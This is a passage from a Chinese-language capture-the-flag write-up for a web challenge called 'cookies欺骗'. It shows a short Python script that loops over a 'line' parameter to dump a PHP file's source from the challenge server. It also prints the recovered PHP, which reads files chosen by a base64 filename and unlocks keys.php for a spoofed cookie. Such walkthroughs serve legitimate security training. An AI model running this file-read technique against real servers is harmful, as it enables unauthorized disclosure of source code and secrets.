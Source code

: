     index.php经过base64编码后为：aW5kZXgucGhw

    ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/bugku/cookies%E6%AC%BA%E9%AA%97/PAAJKTHIOF1TTDZHYHWDZ%7BV.png)

    在源代码中发现有点有用的信息，这时候把视线再转移到另一个参数line。前面只显示<?php，并不全，猜测可能是line控制显示的行数

    我们尝试更改line的值

    ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/bugku/cookies%E6%AC%BA%E9%AA%97/FQ%5B4IHZ%5BWK82R5C%29FQFGKQ9.png)

    ![](https://blog-file-1302856486.cos.ap-guangzhou.myqcloud.com/bugku/cookies%E6%AC%BA%E9%AA%97/88L4Y%7D0_M%28WV~LM%7BE%2968F%25I.png)

    确认line参数控制显示的行数了，我们写个python脚本跑一下

    ~~~python
    import requests
    
    lines = 20
    
    for i in range(lines):
        url = "http://123.206.87.240:8002/web11/index.php?line="+str(i)+"&filename=aW5kZXgucGhw"
        res = requests.get(url).text
        print(res)
    ~~~

    跑完得到完整的源代码：

    ~~~php
    <?php
    
    error_reporting(0);
    
    	$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
    
    	$line=isset($_GET['line'])?intval($_GET['line']):0;
    
    	if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
    
    	$file_list = array(
    
    	'0' =>'keys.txt',
    
    	'1' =>'index.php',
    
    );
    
     
    
    if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){
    
    	$file_list[2]='keys.php';
    
    }
    
    
    
    if(in_array($file, $file_list)){
    
    	$fa = file($file);
    
    	echo $fa[$line];
    
    }
    